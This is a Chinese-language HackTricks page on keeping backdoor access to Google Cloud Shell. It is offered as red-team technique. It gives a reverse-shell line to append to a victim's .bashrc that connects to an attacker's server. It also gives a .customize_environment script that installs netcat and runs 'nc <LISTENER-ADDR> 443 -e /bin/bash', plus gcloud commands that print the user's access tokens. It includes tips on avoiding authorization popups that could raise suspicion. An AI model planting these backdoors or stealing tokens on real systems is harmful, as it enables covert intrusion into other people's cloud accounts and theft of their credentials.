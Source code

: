 # GCP - 云Shell持久性

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们独家的[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **提交PR来分享您的黑客技巧**
*
*
*
* &#x20;github仓库。

</details>

## 云Shell

有关更多信息，请查看：

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### 持久后门

[**Google Cloud Shell**](https://cloud.google.com/shell/)为您提供了直接从浏览器访问云资源的命令行访问权限，而且没有任何相关费用。

您可以从**Web控制台**或运行**`gcloud cloud-shell ssh`**来访问Google的Cloud Shell。

对于攻击者来说，这个控制台具有一些有趣的功能：

1. **任何具有Google Cloud访问权限的用户**都可以访问完全经过身份验证的Cloud Shell实例（即使是组织的所有者也可以）。
2. 该实例将在至少120天内**保留其主目录**，如果没有任何活动发生。
3. **组织无法监视**该实例的活动。

这基本上意味着攻击者可以在用户的主目录中放置一个后门，只要用户每120天至少连接到GC Shell一次，后门就会存活下来，攻击者每次运行时都会获得一个shell，只需执行：
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

在主目录中还有一个名为**`.customize_environment`**的文件，如果存在，将在用户每次访问**云shell**时执行（就像在上一种技术中一样）。只需插入前面的后门或类似以下内容的后门，即可在用户频繁使用云shell时保持持久性：
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
重要提示：**第一次执行需要身份验证的操作时**，用户的浏览器会弹出授权窗口。在命令运行之前，必须接受此窗口。如果出现意外弹窗，可能引起怀疑，并潜在地危及正在使用的持久性方法。
{% endhint %}

这是在浏览器用户会话中查看作为攻击者执行`gcloud projects list`时的弹出窗口：

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

然而，如果用户已经积极使用了云shell，则不会出现弹窗，您可以**获取用户的令牌**：
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH连接是如何建立的

基本上，使用了以下3个API调用：

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST\]（将让您添加您在本地创建的公钥）
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST\]（将让您启动实例）
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET\]（将告诉您Google Cloud Shell的IP）

但您可以在[https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)中找到更多信息。

## 参考资料

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)
